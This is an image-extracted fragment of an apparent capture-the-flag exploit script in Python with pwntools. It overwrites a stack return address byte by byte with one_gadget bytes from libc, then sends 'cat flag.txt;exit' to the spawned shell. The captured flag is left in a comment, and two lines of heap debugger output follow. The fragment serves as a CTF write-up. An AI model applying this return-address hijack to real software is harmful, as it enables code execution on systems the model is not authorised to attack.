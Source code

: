 ```python
    r.sendline(swap_absolute_str(stack_ret_address, next(x for x in libc.search(one_gadget_bytes[0],writable=True) if x > libc.address+0x21a000)))
    r.sendline(swap_absolute_str(stack_ret_address+1, next(x for x in libc.search(one_gadget_bytes[1],writable=True) if x > libc.address+0x21a000)))
    r.sendline(swap_absolute_str(stack_ret_address+2, next(x for x in libc.search(one_gadget_bytes[2],writable=True) if x > libc.address+0x21a000)))
    
    r.sendline(b"0 0")
    r.sendline(b"cat flag.txt;exit")
    r.recvuntil(b"$")
    print(r.recvall())
    # dice{i7_S33MS_sOm3BODY_cOOK3D_h3r3_8ff4c343}
    # good luck pwning :)

    # r.interactive()


if __name__ == "__main__":
    main()

```


[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000